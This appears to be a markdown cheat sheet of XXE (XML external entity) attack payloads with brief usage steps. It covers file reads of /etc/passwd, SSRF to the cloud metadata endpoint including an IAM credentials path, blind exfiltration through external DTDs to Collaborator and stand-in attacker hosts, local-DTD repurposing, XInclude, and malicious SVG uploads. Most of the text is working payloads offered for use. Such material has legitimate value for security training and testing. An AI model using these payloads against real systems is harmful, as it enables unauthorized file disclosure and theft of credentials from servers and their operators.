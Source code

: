 * [Hidden XXE attack surface via exploiting XInclude to retrieve files](#Hidden-XXE-attack-surface-via-exploiting-XInclude-to-retrieve-files)
# XXE Payloads

### External source for learning and exploiting
https://youtu.be/gjm6VHZa_8s?si=kYbaFjUQXSRGJ5HZ
## Note

Keep in mind that XML is just a data transfer format. Make sure you also test any XML-based functionality for other vulnerabilities like XSS and SQL injection. You may need to encode your payload using XML escape sequences to avoid breaking the syntax, but you may also be able to use this to obfuscate your attack in order to bypass weak defences.

### Normal Method
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>  >> For retrieving server files.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]>  >> For SSRF attack.

<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://zhkjg0n2ikpienyuf43fiyvuelkc82wr.oastify.com"> ]>  >> For Blind xxe attack.
&xxe;
```
Note: http://169.254.169.254/latest/meta-data/iam/security-credentials/admin endpoint EC2 to retrieve info for SSRF.
#### Example:
Before Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
After Injection:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <stockCheck>
        <productId>
            &xxe;
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use ```XML parameter entities instead```.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://x0yhzy601i8gxlhsy2md1wesxj3ar2fr.oastify.com"> %xxe; ]>  >> For Blind xxe via XML parameter entities.
```
#### Example:
Blind Injection via ```XML parameter entities```.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://attacker-doamin.com/?x=/etc/passwd"> %xxe; ]>
    <stockCheck>
        <productId>
            1
        </productId>
        <storeId>
            1
        </storeId>
    </stockCheck>
```
With real-world XXE vulnerabilities, there will often be a large number of data values within the submitted XML, any one of which might be used within the application's response. To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.
### Exploiting blind XXE via external DTD server
Host this payloads with burp collaborator in external DTD server.<br>
To exfiltrate data in collaborator server.
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://uljekvrxmftdii2pjz7amtzpigo7c50u.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
To retrieve data via error messages.
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'file:///invalid/%file;'>">
%eval;
%exfil;
```
Now paste the external DTD server link in vulnerable xml field.
```xml
<!DOCTYPE stockCheck [<!ENTITY % xxe SYSTEM "http://external.dtd.server"> %xxe; ]>
```
### Exploiting XXE to retrieve data by repurposing a local DTD against known Operating System
Locate an existing DTD file to repurpose. For example, Linux systems using the GNOME desktop environment often have a DTD file at /usr/share/yelp/dtd/docbookx.dtd. You can test whether this file is present by submitting the following XXE payload, which will cause an error if the file is missing. Try bruteforcing with common dtd file names via burp intruder to identify local dtd file. 
```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```
Now use this payload with identified dtd.
```
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```
### Hidden XXE attack surface via exploiting XInclude to retrieve files
Some applications receive client-submitted data via parameter value(id=1) without xml body, embed it on the server-side into an XML document, and then parse the document. In this situation try this method. Use ```&xxe; (encode & to %26)``` to parameter value(id=&xxe;) to identify xxe via error message. Then place this payload in value to retrieve file.
```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>
```
### Exploiting XXE via image file upload
Change: 
    filename="test.png" to filename="attack.svg" >>
    Content-Type: image/png to Content-Type: image/svg+xml >>
Then put this payload in pixel data.
```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```
Note: The ```svg``` Image format uses XML
### Exploiting XXE via modified Content-Type
Most POST requests use a default content type that is generated by HTML forms, such as application/x-www-form-urlencoded. Some web sites expect to receive requests in this format but will tolerate other content types, including XML.

For example, if a normal request contains the following:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
Then you might be able submit the following request, with the same result:
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```
If the application tolerates requests containing XML in the message body, and parses the body content as XML, then you can reach the hidden XXE attack surface simply by reformatting requests to use the XML format. 
